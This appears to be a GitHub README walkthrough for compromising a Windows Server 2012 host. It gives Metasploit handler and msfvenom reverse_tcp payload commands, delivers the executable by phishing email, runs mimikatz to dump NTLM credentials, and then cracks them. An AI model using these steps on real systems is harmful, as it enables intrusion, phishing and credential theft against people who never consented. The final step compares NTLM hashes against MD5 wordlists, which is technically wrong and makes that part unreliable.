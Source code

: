 ![image](https://user-images.githubusercontent.com/101802030/225642283-5574f2d4-dca9-4769-9fb3-b5c3181bd344.png)



This is a demonstration of obtaining a reverse shell on a Windows 2012 Server. The aim of obtaining access is to view and copy the output produced by downloading certain tools to the compromised host and then run a script to compare the produced data against a pre-defined list of data

### The following steps are provided to obtain a reverse shell on a Windows 2012 Server. The steps performed, were carried out in a secure environment. Please ensure, if you do choose to replicate this activity that you either do so as qualified practitioner or that you have a qualified practitioner with you.

# Step 1 : Create a reverse handler using metasploit. To do so, you run the following commands -
  - 1 - sudo msfconsole <br>
  - 2 - use multi/handler <br>
  - 3 - configure payload (preferable : windows/meterpreter/rerverse_tcp) <br>
  - 4 - ensure that the "LHOST" and "LPORT" settings are correctly configured. You may do so, by running : set LHOST <IP Address of Host> and the set LPORT <port you would like to listen on> <br>
  - 5 - once this has been completed, you may run : run -j or exploit -j at the msf prompt. This will create a persistent listener that will exit once you tell it to, if a disconnect from the client(victim) is received. After doing so, you should see the following screen : <br>
  
  ![image](https://user-images.githubusercontent.com/101802030/225851486-2fa0062f-5b31-435c-8b7d-9b492d37a588.png)
  
  # Step 2 : Create an exploit using msfvenom. To do so, you run the following command -
  - 1 - sudo msfvenom --platform windows -p windows/meterpreter/reverse_tcp LHOST=0.0.0.0 LPORT=8888 -f exe -o ~/Downloads/my_new_exploit.exe
  - And you should see the following output :
  
  ![image](https://user-images.githubusercontent.com/101802030/225945823-7e83ae7e-f211-4359-8b63-a72db0f21506.png)
  
  # Step 3 : Infect the victim machine with the exploit. In this case it will be a Windows Server 2012 edition. To do so, you may perform the following steps -
  - 1 - Host the exploit on a webserver, preferrably Linux. 
  - 2 - Create an e-mail containing a url link to the exploit
  - 3 - Send email to victim machine and have the link clicked on and run the executable. You should see the following screen on your server and/or C2
  
  ![image](https://user-images.githubusercontent.com/101802030/225951348-ec303cc6-1302-4ce9-bb98-a8710cf28dc6.png)
  
  # Step 4 : Download mimikatz and obtain ntlm hash. To do so, you use the following steps -
  - 1 - In your meterpreter session, type upload and the location of the file you would like to upload as well as the location you would like to upload the file to on the victim. Make sure it is a not a system directory. In this case, it will be mimikatz. It could be a good idea to place it in your web servers root directory. See below example screenshot of this step being performed :
  
  ![image](https://user-images.githubusercontent.com/101802030/225954841-e3218cfe-4182-4a50-9935-e6114c380d5b.png)
  
  # Step 5 : Navigate to the infected hosts directory where you uploaded mimikatz to, in the previous step, and do the following -
  - 1 - Run mimikatz, by simply typing mimikatz.exe. Don't use tab(ever!). This should display the mimikatz console.
  - 2 - In order to obtain the ntlm hash, run the following command :
  - 2.1 - privilege::debug
  - 2.2 - sekurlsa::logonPasswords
  - You should then see the following screen :
  
  ![image](https://user-images.githubusercontent.com/101802030/225957540-0887f031-02b4-44da-8a83-fac4887ce0cf.png)
  
  - 3 - Scroll down until you see the following output, and copy the ntlm hash -
  
  ![image](https://user-images.githubusercontent.com/101802030/225959132-c3beb498-afb0-499f-80bf-5e7d08f1646e.png)
  
  # Step 6 : Compare the ntlm hash against a list of words that have been converted to md5 hashes -
  - 1 - Create a script to compare the hashes. I used C# to create one. This would mean that, you will need a Windows computer to successfully perform this step. 
  - Please note : You may create a script in any language of your choice, python would be ideal, since it is very user-friendly. You will also need a list a of words converted to md5 hashes saved as a .txt file. The command would be as follows :
  - 2 - hashmatcher.exe <ntlm hash> <hash_word_file.txt>
  
  - See screenshot below, of the comparison being performed. Enjoy!
  
  ![image](https://user-images.githubusercontent.com/101802030/225962918-b259f5f7-dcaf-4053-bc15-9f43ae23af59.png)
  
  - As you can see, the program I have created in this case, is called hashmatcher. Unfortunately it is not publicly available, however I am upon to discussing acquiring the software at a minimal cost. Preferrably in Indian rupees.
  
  - It would be important to note, that in creating the wordlist of md5 hashes, it would be best to ensure that the word is next to the hash when looking for which word it is, after you have found a match. To do so, you can create a script or a program. I used python. Again, this software is not publicly available but can be acquired at a small cost. See example list below :
  
  ![image](https://user-images.githubusercontent.com/101802030/225966196-e8fbf262-21d3-445c-a3c5-57aeab8c5b8a.png)

  
  
  Disclaimer : All activities showcased are performed within the confines of legal law. Please ensure that these steps are only carried out on authorized hosts or within a home environment.








  
  



